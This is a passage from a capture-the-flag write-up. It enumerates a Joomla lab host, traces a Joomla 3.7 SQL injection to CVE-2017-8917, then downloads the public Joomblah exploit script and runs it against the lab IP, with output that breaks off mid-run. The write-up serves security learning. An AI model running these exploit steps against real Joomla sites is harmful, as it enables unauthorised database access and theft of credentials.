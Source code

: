 ````commandline
[+] Enumeration component (com_wrapper)
[++] Name: com_wrapper
Location : http://10.10.96.66/components/com_wrapper/
Directory listing is enabled : http://10.10.96.66/components/com_wrapper/
Installed version : 3.1


Your Report : reports/10.10.96.66/
````

## Looking for vulnerabilities we can exploit

Looking up on [exploit-db](https://www.exploit-db.com/) reveals an incredible amount of results with only the keyword `joomla`. So we definitively need to add the version number `3.7` in our search to filter out what is not relevant. Which then revealed an interesting [Joomla! 3.7 SQL Injection](https://www.exploit-db.com/exploits/44227) vulnerability. However, this report is very unclear. We do not have any `CVE` reference. There are no real usable comments or a `HOWTO` into this `PHP` code. We have only that `PHP` script, and I do not like that to run some random code I do not understand. Analyzing the code can take a lot of effort and time. Time is money like they say. So we have to do further researches because in my opinion, this a very bad and incomplete report.

So we have to dig deeper. We know now there is a `SQL Injection` vulnerability with `Joomla 3.7`, so a Google search with these 4 keywords revealed more information, and we can find for example the website [cvedetails CVE-2017-8917](https://www.cvedetails.com/cve/CVE-2017-8917/) with even more information and links. As we have some CVE-2017-8917 reference by now, we can eventually dig even deeper and do a Google search on this CVE-2017-8917 keyword.

There are different possibilities to make use of this exploit. It's all up to you to take the one you want, and which actually also work. I like the Python programming language, and like this CTF suggested looking to a Python script instead of using the `SQLMap` tool. So I took a random one that showed up in my previous research the [Joomblah](https://github.com/XiphosResearch/exploits/tree/master/Joomblah).

## Exploiting Joomla with the Joomblah Python script

This [Joomblah](https://github.com/XiphosResearch/exploits/tree/master/Joomblah) `Python` script seems fairly simple. So let's make use of it. For this we first need to grab the raw source code of it and make it executable on our host machine.

````commandline
$ wget https://raw.githubusercontent.com/XiphosResearch/exploits/master/Joomblah/joomblah.py
$ chmod +x joomblah.py
````

Running the script and we will get the username and password hash.

````commandline
$ ./joomblah.py http://10.10.96.66/
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
````